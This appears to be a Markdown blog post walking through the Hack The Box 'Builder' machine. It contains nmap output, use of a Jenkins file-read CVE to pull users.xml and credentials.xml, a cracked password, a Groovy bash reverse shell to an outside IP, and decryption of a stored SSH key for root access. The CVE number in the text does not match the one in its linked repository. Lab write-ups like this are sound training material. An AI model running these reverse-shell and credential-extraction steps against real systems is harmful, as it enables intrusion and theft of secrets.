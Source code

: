 ```yaml
---
layout: post
title: HTB - builder
date: 2025-03-04 18:42 -0400
---
```


{{ 'builder' | get_machine_avatar | raw }}

# jenkins
## nmap
```bash
~/workspace/projects/htb/builder » sudo nmap -p8080,22 -sC -sV $(cat ip.txt) --min-rate 1024
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-14 16:25 -04
Nmap scan report for builder.htb (10.10.11.10)
Host is up (0.24s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(10.0.18)
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.47 seconds
```

## robots.txt
nothing

## subdomain bruteforce
nothing

## builder.htb
- Running jenkins version 2.441

![img](/assets/img/builder1.png)

- Vulnerable to [CVE-2024-23987](https://github.com/h4x0r-dz/CVE-2024-23897)
  - connect-node subcommand gives a full file read
  - help gives a partial file read

using the [jenkins docker image](https://hub.docker.com/layers/jenkins/jenkins/2.441/images/sha256-01e66c77a577d9c2b09e2e76ed6ef2508d341dc8fa713a272e351e113818d857) as reference we can find:
- default installation at `/var/jenkins_home`
- interesting files:
  - `/var/jenkins_home/users/users.xml`
    - has a list of all users
        - `users/jennifer_12108429903186576833/config.xml`
        - has user password hash
            - `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a`
  - `/var/jenkins_home/users/credentials.xml`
    - has all the credentials in encrypted form

cracking the hash gives the creds
- `jennifer:princess`

From here there are a lot of options.
I used jenkings cli to get a shell using groovy:

![img](/assets/img/builder2.png)

```bash
» java -jar jenkins-cli.jar -auth jennifer:princess -s http://builder.htb:8080/ groovysh
Groovy Shell (2.4.21, JVM: 17.0.9)
Type ':help' or ':h' for help.
-------------------------------------------------------------------------------
groovy:000> ['/bin/bash', '-c', 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'].execute()
```

user flag:

```bash
jenkins@0f52c222a4cc:/$ cat ~/user.txt
cat ~/user.txt
64efe***************************
```

# root 1
`/.dockerenv` exists so probably running inside docker container:

Linpeas shows nothing interesting, probably a true jenkins challenge.

We can use pipelines with the ssh plugin to ssh to the host and get the root flag.

![img](/assets/img/builder3.png)
![img](/assets/img/builder5.png)

# root 2
A second way of solving this is by looking at the secret on /var/jenkins_home/credentials.xml and using groovy to [decrypt it](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml):
```bash
Groovy Shell (2.4.21, JVM: 17.0.9)
Type ':help' or ':h' for help.
-------------------------------------------------------------------------------
groovy:000> println(hudson.util.Secret.decrypt("{secret}"))
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```
then just `ssh -i <PRIV KEY> root@172.17.0.1`

```bash
root@builder:~# cat /root/root.txt
76811***************************
```
